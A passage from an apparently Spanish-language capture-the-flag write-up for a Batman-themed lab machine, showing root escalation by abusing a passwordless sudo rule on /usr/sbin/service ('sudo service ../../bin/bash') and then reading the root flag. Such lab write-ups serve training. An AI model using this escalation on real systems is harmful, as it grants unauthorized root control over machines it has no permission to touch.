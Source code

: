 Para escalar a root, ejecutaremos el comando _sudo -l_ para ver los binarios que podemos ejecutar como otros usuarios.

```sh
batman@waynemanor:/var/www/html$ sudo -l
sudo -l
Matching Defaults entries for batman on waynemanor:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User batman may run the following commands on waynemanor:
    (root) NOPASSWD: /usr/sbin/service
batman@waynemanor:/var/www/html$
```

Finalmente, el archivo _/etc/sudoers_ nos indica que podemos ejecutar _/usr/sbin/service_ como el usuario root (más información [aquí](https://gtfobins.github.io/gtfobins/service/#sudo).

Abusaremos de esta configuración con el comando:

```sh
sudo service ../../bin/bash
```

```sh
batman@waynemanor:/$ sudo service ../../bin/bash
sudo service ../../bin/bash
whoami
root
id
uid=0(root) gid=0(root) groups=0(root)
groups
root
```

Ahora ya podremos leer la flag de root (proof.txt) alojada en _/root/proof.txt_.

```
cat /root/proof.txt

Rescue a cat? Unbelievable, I had to leave that journalist who works at 'The Gotham Times' for this animal...

Well... I'll have to get back to the party, Alfred needs me.


                 T\ T\
                 | \| \
                 |  |  :
            _____I__I  |
          .'            '.
        .'                '
        |   ..             '
        |  /__.            |
        :.' -'             |
       /__.                |
      /__, \               |
         |__\        _|    |
         :  '\     .'|     |
         |___|_,,,/  |     |    _..--.
      ,--_-   |     /'      \../ /  /\\
     ,'|_ I---|    7    ,,,_/ / ,  / _\\
   ,-- 7 \|  / ___..,,/   /  ,  ,_/   '-----.
  /   ,   \  |/  ,____,,,__,,__/            '\
 ,   ,     \__,,/                             |
 | '.       _..---.._                         !.
 ! |      .'  _ __ . '.                        |
 .:'      | (-_ _--')  :          L            !
```